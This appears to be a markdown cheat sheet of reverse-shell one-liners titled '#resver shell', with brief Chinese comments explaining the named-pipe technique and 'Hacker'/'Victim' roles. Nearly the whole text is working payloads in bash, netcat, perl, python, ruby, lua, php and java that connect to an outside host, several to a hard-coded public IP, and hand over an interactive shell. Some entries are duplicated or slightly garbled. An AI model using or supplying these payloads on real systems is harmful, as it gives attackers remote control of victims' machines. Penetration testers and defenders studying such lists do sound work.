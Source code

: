 #resver shell
---

#### bash

`bash -i >& /dev/tcp/104.128.87.194/55555 0>&1`

#### 1

`nc -l -vv -p 55555 -e /bin/bash`

#### 2

`nc -lnvp 55555`

```
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc x.x.x.x [listenPort] 1>/tmp/backpipe
```
> 第一条命令使用mknod在tmp目录下创建一个管道backpipe
> 第二条命令首先将默认shell环境的输入重定向给刚才创建的管道，然后将输出通过nc attackerip

#### perl

```
perl -e 'use Socket;$i="104.128.87.194";$p=55555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("104.128.87.194",55555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("104.128.87.194",55555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

#### ruby

````
ruby -rsocket -e'f=TCPSocket.open("104.128.87.194",55555).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
```

#### nc不使用-e

```
Hacker:nc -lvnp listenport
Victim:mknod /tmp/backpipe p
Victim:/bin/sh 0</tmp/backpipe | nc 104.128.87.194 55555 1>/tmp/backpipe

不使用nc

Method 1:
Hacker: nc -nvlp 55555
Victim: /bin/bash -i > /dev/tcp/104.128.87.194/8080 0<&1 2>&1

Method 2:
Hacker: nc -nvlp 55555
Victim: mknod backpipe p && telnet 104.128.87.194 55555 0 backpipe

Method 3:
Hacker: nc -nvlp 55555
Hacker: nc -nvlp 55555
Victim: telnet 104.128.87.194 55555 | /bin/bash | telnet 104.128.87.194 55555
```

#### lua

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('104.128.87.194','55555');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
#### php

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat
 <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```